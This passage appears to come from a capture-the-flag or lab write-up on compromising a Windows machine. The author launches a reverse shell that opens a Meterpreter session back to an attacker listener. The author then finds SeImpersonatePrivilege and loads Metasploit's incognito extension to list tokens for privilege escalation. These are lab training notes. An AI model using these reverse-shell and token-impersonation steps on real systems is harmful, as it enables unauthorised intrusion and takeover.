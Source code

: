 In the powershell terminal, execute the reverse shell using the Powershell `Start-Process` cmdlet:

	PS C:\Users\bruce\Desktop> Start-Process "shell.exe"

Back in the metasploit terminal:

    [*] Started reverse TCP handler on 10.9.1.53:4443 
    [*] Sending stage (175686 bytes) to 10.10.184.145
    [*] Meterpreter session 1 opened (10.9.1.53:4443 -> 10.10.184.145:49352) at 2022-09-29 20:13:30 +0100
    
    meterpreter > 

## Privilege escalation

Check privileges. Left out all disabled services for readability:

```text
PS C:\Users\bruce\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State   
=============================== ========================================= ========
...
SeDebugPrivilege                Debug programs                            Enabled 
...
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
...
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
...
```

It appears the current user has the SeImpersonate privilege.

## Impersonation

Load [incognito](https://www.offensive-security.com/metasploit-unleashed/fun-incognito/), which allows for impersonating tokens:

    meterpreter > load incognito
    Loading extension incognito...Success.

List tokens:

    meterpreter > list_tokens -g
    [-] Warning: Not currently running as SYSTEM, not all tokens will be available
                 Call rev2self if primary process token is SYSTEM
    
    Delegation Tokens Available
    ========================================
    \
    BUILTIN\Administrators
    ...

